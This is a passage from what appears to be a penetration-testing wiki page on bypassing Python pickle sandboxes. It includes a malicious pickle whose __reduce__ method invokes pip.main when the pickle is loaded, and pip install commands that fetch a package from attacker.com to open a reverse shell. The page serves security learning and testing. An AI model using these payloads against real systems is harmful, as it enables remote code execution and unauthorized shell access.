![](<../../../.gitbook/assets/image (552).png>)

## Bypass pickle sandbox with default installed python packages

### Default packages

You can find a **list of pre-installed** packages here: [https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html](https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html)\
Note that from a pickle you can make the python env **import arbitrary libraries** installed in the system.\
For example the following pickle, when loaded, is going to import the pip library to use it:

```python
#Note that here we are importing the pip library so the pickle is created correctly
#however, the victimdoesn't even need to have the library installed to execute it
#the library is going to be loaded automatically

import pickle, os, base64, pip
class P(object):
    def __reduce__(self):
        return (pip.main,(["list"],))

print(base64.b64encode(pickle.dumps(P(), protocol=0)))
```

For more information about how does pickle works check this: [https://checkoway.net/musings/pickle/](https://checkoway.net/musings/pickle/)

### Pip package

Trick shared by **@isHaacK**

If you have access to `pip` or to `pip.main()` you can install an arbitrary package and obtain a reverse shell calling:

```bash
pip install http://attacker.com/Rerverse.tar.gz
pip.main(["install", "http://attacker.com/Rerverse.tar.gz"])
```

You can download the package to create the reverse shell here. Please, note that before using it you should **decompress it, change the `setup.py`, and put your IP for the reverse shell**:
